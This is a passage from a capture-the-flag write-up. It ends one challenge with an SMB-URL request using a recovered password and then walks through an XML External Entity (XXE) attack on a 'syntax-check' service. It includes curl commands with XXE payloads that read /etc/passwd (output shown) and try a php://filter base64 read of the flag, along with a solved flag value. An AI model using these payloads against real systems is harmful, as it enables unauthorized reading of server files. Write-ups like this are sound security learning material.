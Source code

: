 The correct password is `christian`. We can now get the flag!

`http GET 'http://138.68.93.187:6960/v2/smb?onlyifyouknowthesourcecode=smb://josh:christian@localhost/josh/flag.txt'`

The flag is: `ctf{6056850ae00cb2cdc76d2bfa0bcb40ee3cc744702a31af0a8edd7fb2872da6f9}`


### syntax-check
This task took a while to figure out. The task description is
```
Some languages can be read by human, but not by machines, while 
others can be read by machines but not by humans. This markup 
language solves this problem by being readable to neither.

The flag is in /var/www/html/flag.
```

The button on the main page does not work at all. It sets a GET parameter called 
`<foo>Hi!</foo>` and we get an error page saying "Empty string supplied as input."

The trick was to figure out that you had to send something in the request body instead of a GET parameter.

`curl -D- -XGET 'http://34.107.22.248:30526/parse' --data test`

A new error message: `That XML string is not well-formed`

Now we get a clue that the data we send is should be XML. The vulnerability here must be XML External Entity processing. We can try to create some entities that fetches local files on the server. 

```shell
$ curl -D- -XGET 'http://34.107.22.248:30526/parse' --data '<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>'
```

We get the `/etc/passwd` file back!
```
...
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www:x:1000:3000::/var/www:/usr/sbin/nologin
```

However we cannot leak the flag using base64 encoding.

```shell
curl -D- -XGET 'http://34.107.22.248:30526/parse' --data '<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>'
```
